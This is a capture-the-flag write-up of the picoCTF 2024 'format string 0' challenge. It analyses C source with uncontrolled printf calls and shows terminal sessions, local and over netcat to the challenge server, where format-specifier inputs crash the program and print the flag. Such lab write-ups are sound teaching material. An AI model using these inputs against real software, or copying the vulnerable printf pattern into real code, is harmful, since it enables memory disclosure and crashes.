 # format string 0

```
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Main basically does the following:
- Make sure there is a `flag.txt` file available, 
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```
and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0  
Please create 'flag.txt' in this directory with your own debugging flag.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ echo "picoCTF{fake_flag}" > flag.txt                                        

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0                  
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```
Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.
- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ nc mimas.picoctf.net 58598
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [setresuid - Linux manual page](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [signal - Linux manual page](https://man7.org/linux/man-pages/man7/signal.7.html)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
